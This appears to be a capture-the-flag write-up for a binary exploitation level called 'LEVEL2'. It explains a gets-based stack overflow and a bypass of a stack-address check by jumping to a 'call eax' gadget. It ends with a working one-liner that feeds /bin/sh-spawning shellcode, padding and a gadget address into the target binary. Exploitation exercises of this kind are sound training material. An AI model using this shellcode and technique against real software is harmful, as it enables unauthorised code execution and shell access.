 # LEVEL2

## EXPLANATIONS

### BINARY BEHAVIOR

- `main` calls `p`
- `p` allocates a buffer on its stack frame
- `gets` writes stdin on stack buffer
- `p` checks that address in sEIP is not a stack address

### EXPLOIT STRATEGY

- We write our exploit string (shellcode + padding + address of `frame_dummy+31`(call eax)) into `p` stack buffer
  - because strdup is the last function called before the return of p, we still have strdup return (heap address in which all stdin buffer has been copied) in EAX
  - `frame_dummy + 31 == call EAX`

### RUN COMMAND

```
python -c "print('\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'A' * 35 + '\x08\x04\x84\xcf'[::-1])" > /tmp/exploit_string
`cat /tmp/exploit_string - | /home/user/level2/level2
```
